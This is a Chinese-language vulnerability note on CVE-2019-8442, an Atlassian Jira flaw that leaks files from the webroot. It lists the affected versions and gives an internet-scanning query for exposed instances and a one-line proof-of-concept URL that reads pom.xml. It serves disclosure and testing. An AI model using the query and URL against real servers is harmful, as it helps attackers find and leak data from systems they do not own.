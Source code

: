 # Atlassian Jira com.atlassian.jira 敏感信息泄漏 CVE-2019-8442

## 漏洞描述

Atlassian Jira是澳大利亚Atlassian公司的一套缺陷跟踪管理系统。该系统主要用于对工作中各类问题、缺陷进行跟踪管理。 远程攻击者可利用该漏洞访问Jira webroot中的文件。

## 漏洞影响

<a-checkbox checked>Atlassian Jira < 7.13.4</a-checkbox></br>

<a-checkbox checked>Atlassian Jira 8.00-8.0.4</a-checkbox></br>

<a-checkbox checked>Atlassian Jira 8.1.0-8.1.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-JIRA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651291151659-56949fca-ccf9-4acb-9a06-0835aba9b385.png)

验证POC

```java
/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651291176483-c9859fd7-d8a8-442f-9524-0e84f6137322.png)